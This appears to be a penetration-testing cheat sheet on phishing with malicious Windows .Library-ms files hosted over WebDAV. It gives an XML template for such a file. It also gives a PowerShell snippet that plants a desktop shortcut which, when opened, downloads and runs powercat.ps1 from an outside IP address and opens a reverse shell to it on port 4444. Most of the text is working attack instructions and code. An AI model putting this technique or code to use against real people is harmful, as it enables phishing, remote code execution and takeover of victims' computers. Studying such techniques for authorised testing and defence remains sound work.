 # Windows Lib Files

Windows library files are virtual containers for user content.
They connect users with data stored in remote locations like web services or shares.
These files have a **.Library-ms** file extension and can be executed by
double-clicking them in Windows Explorer.

Staging a malicious .Library-ms file on a web server and sending a link to the target.
You can use WebDAV to host the file on a web server.

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations.

The parts are

1.  General library information,
2.  Library properties, and
3.  Library locations.

Creating a file with the **.Library-ms** extension and opening it in a text editor reveals the XML structure.

Within the XML structure you can specify the location of the remote file, library display name, and library icon, and other parameters.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="https://schemas.microsoft.com/windows/2009/library">
<navigationPaneVisible>true</navigationPaneVisible>
<name>@windows.storage.dll,-34575</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>%SystemRoot%\system32\imageres.dll,-1002</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>https://www.example.com/</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

# Windows with Reverse Shell Shortcut

```powershell
$Shell = New-Object -ComObject WScript.Shell
$Shortcut = $Shell.CreateShortcut("$Home\Desktop\MyShortcut.lnk")
$Shortcut.TargetPath = "powershell.exe -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell\""
$Shortcut.Save()
```